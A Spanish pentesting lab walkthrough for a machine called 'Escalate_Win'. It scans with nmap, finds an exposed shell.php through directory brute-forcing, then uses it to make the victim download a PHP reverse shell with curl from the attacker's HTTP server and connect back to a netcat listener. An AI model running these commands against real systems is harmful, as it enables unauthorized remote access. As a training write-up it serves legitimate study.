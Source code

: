 ```yaml
---
title: Pentesting Escalate_Win
published: true
---
```


### Reconocimiento
Escaneamos con **nmap**:
```
sudo nmap -p- -T4 [IP DE LA VÍCTIMA] -oN nmap.txt 
```
![](/images/20220513115055.png)

Vemos que la máquina tiene el puerto 80 abierto(**http**), por lo tanto, es accesible desde un navegador web:
![](/images/20220513115328.png)

Lanzamos un ataque de diccionario con **dirbuster** para descubrir que directorios hay disponibles:
![](/images/20220513120012.png) 

Detectamos un archivo que parece interesante "**shell.php**":
![](/images/20220513120328.png)

![](/images/20220513121121.png)

Como vemos se pueden ejecutar comandos a través de parametros en la url:
![](/images/20220513121252.png)  

### Exploit
Para conseguir una consola interactiva con la máquina víctima utilizamos una **shell inversa** y **netcat**:

En este caso he escogido esta, ya que es compatible con Windows: https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

Descargamos la shell a nuestra máquina con el comando **wget**:
```
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
```

Ahora editamos el código de **php_reverse_shell.php** para que conecte a nuestra máquina:
```
nano php_reverse_shell.php
```
![](/images/20220513122810.png)  
*En mi caso la ip de kali es 192.168.3.249 y utilizaré el puerto 4444*
Una vez editado guardamos con **CTRL+S** y cerramos con **CTRL+X**

Lo siguiente es iniciar un **servidor http** para poder descargar la shell en la máquina víctima:
```
sudo python3 -m http.server 80
```
![](/images/20220513123751.png)

Descargamos la shell a la máquina víctima desde el navegador utilizando **curl**:
```
http://[IP DE LA VÍCTIMA]/shell.php?cmd=curl+http://[IP DEL ATACANTE]/php_reverse_shell.php+-O+php_reverse_shell.php
```
*Si todo ha ido bien, el servidor nos contestara con una página en blanco*

Podemos ver que nuestro shell se ha subido correctamente:
```
http://[IP DE LA VÍCTIMA]/shell.php?ls+-la
```
![](/images/20220513125043.png)  
Ya podemos cerrar el servidor http en kali.

Ponemos **netcat** a la escucha en el puerto 4444:
```
nc -nlvp 4444
```
![](/images/20220513125601.png)  

Lo unico que falta es ejecutar la shell en la máquina víctima:
```
http://[IP DE LA VÍCTIMA]/php_reverse_shell.php.php
```
*Si todo va bien, el navegador se quedara cargando.*

Listo, hemos recibido una conexion en netcat que nos da acceso remoto a la máquina víctima:
![](/images/20220513130346.png)

![](/images/20220513130922.png)

A partir de aquí pasaríamos a la fase de **escalada de privilegios**.